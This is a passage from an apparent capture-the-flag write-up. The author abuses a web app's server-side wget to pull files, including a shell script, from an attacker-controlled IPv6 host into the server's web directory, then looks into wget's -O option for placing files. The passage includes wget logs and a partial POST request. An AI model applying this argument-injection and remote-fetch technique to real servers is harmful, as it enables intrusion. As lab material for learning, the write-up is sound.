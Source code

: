 ```http
Length: 409 [text/html]
Saving to: ‘/var/www/nginx/static/tmp/9000:6666:6666:6666:216:3eff:feb1:8d80:8080/index.html’

0K 100% 16.7M=0s

2024-05-18 14:14:38 (16.7 MB/s) - ‘/var/www/nginx/static/tmp/9000:6666:6666:6666:216:3eff:feb1:8d80:8080/index.html’ saved [409/409]

Loading robots.txt; please ignore errors.
--2024-05-18 14:14:38-- http://[9000:6666:6666:6666:216:3eff:feb1:8d80]:8080/robots.txt
Connecting to [9000:6666:6666:6666:216:3eff:feb1:8d80]:8080... connected.
HTTP request sent, awaiting response... 404 File not found
2024-05-18 14:14:38 ERROR 404: File not found.

...

2024-05-18 14:14:38 (1.17 MB/s) - ‘/var/www/nginx/static/tmp/9000:6666:6666:6666:216:3eff:feb1:8d80:8080/test.js’ saved [19/19]

--2024-05-18 14:14:38-- http://[9000:6666:6666:6666:216:3eff:feb1:8d80]:8080/test.sh
Connecting to [9000:6666:6666:6666:216:3eff:feb1:8d80]:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 75 [text/x-sh]
Saving to: ‘/var/www/nginx/static/tmp/9000:6666:6666:6666:216:3eff:feb1:8d80:8080/test.sh’

0K 100% 4.45M=0s

2024-05-18 14:14:38 (4.45 MB/s) - ‘/var/www/nginx/static/tmp/9000:6666:6666:6666:216:3eff:feb1:8d80:8080/test.sh’ saved [75/75]

FINISHED --2024-05-18 14:14:38--
Total wall clock time: 0.03s
Downloaded: 4 files, 1.9K in 0s (27.5 MB/s)

at genericNodeError (node:internal/errors:984:15)
at wrappedFn (node:internal/errors:538:14)
at ChildProcess.exithandler (node:child_process:422:12)
at ChildProcess.emit (node:events:519:28)
at maybeClose (node:internal/child_process:1105:16)
at ChildProcess._handle.onexit (node:internal/child_process:305:5)
```

It displayed the error message and information about where the files when being saved. 


## Save to File

I started reading the `wget` documentation to find parameters that I could use to exploit it. I knew I could use `-O` to save the files where I wanted. I tried it, but that did not really help since I could not execute it there any more than at the default location.

```http
POST / HTTP/1.1
Host: brocaarea.ctf
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 111
Origin: http://brocaarea.ctf
Connection: keep-alive
Referer: http://brocaarea.ctf/
Upgrade-Insecure-Requests: 1
```